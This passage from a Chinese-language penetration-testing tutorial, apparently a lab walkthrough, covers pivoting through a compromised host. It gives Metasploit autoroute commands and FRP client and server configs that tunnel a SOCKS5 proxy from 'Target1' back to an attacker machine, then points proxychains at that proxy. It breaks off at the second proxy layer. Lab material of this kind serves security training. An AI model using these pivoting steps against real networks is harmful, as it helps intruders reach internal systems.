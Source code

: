 ```msf
run autoroute -s 192.168.33.0/24
run autoroute -p
```

此时已经完成了socks代理的设置，不需要再进行后续操作了。

## FRP代理

https://gofrp.org/docs/

### 第一层代理

> frp的文件夹在攻击机和跳板机上都要有，一模一样的复制粘贴就可以了。

#### 攻击机启动frps

```
./frps -c ./frps.ini

cat frps.ini
[common]
bind_port = 7000
```

#### Target1启动frpc

```bash
./frpc -c frpc.ini
```

> ```bash
> cat frpc.ini
> ```
>
> [common]
> server_addr = 192.168.1.105
> server_port = 7000
>
> [socks5]
> type = tcp
> plugin = socks5
> remote_port = 6000

> 这里的6000端口就是攻击机上的代理端口（相当于msf里的那个1080），proxychains的配置文件改成6000端口就可以了。

```bash
vim /etc/proxychains4

#添加下面这一行，把其他的注释掉
socks5 127.0.0.1 6000
```

### 第二层代理

#### 攻击机启动frps（同上）
